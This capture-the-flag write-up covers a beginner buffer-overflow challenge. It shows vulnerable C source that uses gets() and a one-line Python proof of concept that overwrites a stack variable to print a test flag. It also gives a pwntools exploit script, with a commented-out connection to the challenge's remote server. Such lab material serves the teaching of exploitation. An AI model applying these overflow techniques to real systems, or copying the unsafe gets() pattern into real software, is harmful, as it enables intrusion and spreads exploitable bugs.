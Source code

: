 # Binexp-0

> **Description:** River Flows In You~
>
> **Remote Instance:** nc 54.255.236.13 9000

### Basic File Checks

Perform basic file checks to understand how the binary was compiled.

```
┌──(kali💀JesusCries)-[~/Desktop]
└─$ file binexp-0 
binexp-0: ELF 32-bit LSB executable, Intel 80386, version 1 (SYSV), dynamically linked, interpreter /lib/ld-linux.so.2, for GNU/Linux 2.6.18, BuildID[sha1]=b177222eda27e1540b74b4416c146500a146ae66, not stripped
```

From the command above, some of the major takeaways are:

- ELF File Type.
- 32-bit.
- Least Significant Bit (LSB) executable.
- Functions name not stripped.

### Static Code Analysis

By looking at the source code, the `gets` function does not limit the input size, which is bound to exceed the buffer limit in a Buffer Overflow attack.

```c
#include <stdio.h>
#include <stdlib.h>

int main(int argc, char *argv[]) {
	int win;
	char buf[32];
	char flag[100];

	win = 0;

	FILE *f = fopen("flag.txt", "r");
	if (f == NULL) {
		puts("'flag.txt' not found.");
		exit(0);
	}

	fgets(flag, 100, f);
	gets(buf);

	if(win != 0) {
		printf("%s\n", flag);
	} else {
		puts("You failed!\n");
	}
}
```

### Proof of Concept

We can overwrite the `win` variable by inputting a series of characters that exceed the size of the buffer.

```
┌──(kali💀JesusCries)-[~/Desktop]
└─$ python -c "print('A' * 32 + 'B')" | ./binexp-0
BAT22{f4k3_fl4g_f0r_t3st1ng}     
```

### Solution

Using pwntools to automate the process:

```python
#!/usr/bin/env python3
from pwn import *

elf = ELF('./binexp-0')
rop = ROP(elf)

p = elf.process()
#p = remote('54.255.190.215', 9000)

def exploit():

    padding = b'A'*140

    payload = padding

    p.sendline(payload)

    p.interactive()

def main():
	exploit()

if __name__ == "__main__":
	main()
```

